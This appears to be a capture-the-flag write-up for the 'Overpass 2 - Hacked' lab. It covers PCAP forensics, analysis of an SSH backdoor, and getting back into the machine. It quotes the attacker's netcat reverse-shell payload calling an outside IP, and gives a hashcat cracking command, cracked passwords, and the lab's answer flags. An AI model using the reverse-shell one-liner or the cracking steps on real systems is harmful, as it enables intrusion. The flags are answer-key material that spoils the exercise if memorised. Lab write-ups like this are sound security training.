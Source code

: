 # Overpass 2 - Hacked

## Task 1 `Forensics - Analyse the PCAP`
- Download The pcapng File and run with wireshark
- What was the URL of the page they used to upload a reverse shell? `/development/`
- What payload did the attacker use to gain access?`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`
- What password did the attacker use to privesc? `whenevernoteartinstant`
- How did the attacker establish persistence? `https://github.com/NinjaJc01/ssh-backdoor`
- Using the fasttrack wordlist, how many of the system passwords were crackable? `4`
```bash
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```
## Task 2 `Research - Analyse the code`
- What's the default hash for the backdoor? `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
- What's the hardcoded salt for the backdoor? `1c362db832f3f864c8c2fe05f2002a05`
- 
What was the hash that the attacker used? - go back to the PCAP for this! `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
- Crack the hash using rockyou and a cracking tool of your choice. What's the password?
`november16`
    using `hashcat -m 1710 -o plain_pass.txt enc_pass.txt /usr/share/wordlists/rockyou.txt`

## Task 3 Attack - Get back in!
- Scan using nmap target machine `nmap -sC -sV -A 10.10.122.187 > nmap_scan`
```bash 
    2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
    | ssh-hostkey: 
    |_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
    
- ssh james@10.10.122.187 -oHostKeyAlgorithms=ssh-rsa -p2222

- The attacker defaced the website. What message did they leave as a heading? `H4ck3d by CooctusClan`
- What's the user flag? `thm{d119b4fa8c497ddb0525f7ad200e6567}`
- What's the root flag? `thm{d53b2684f169360bb9606c333873144d}`
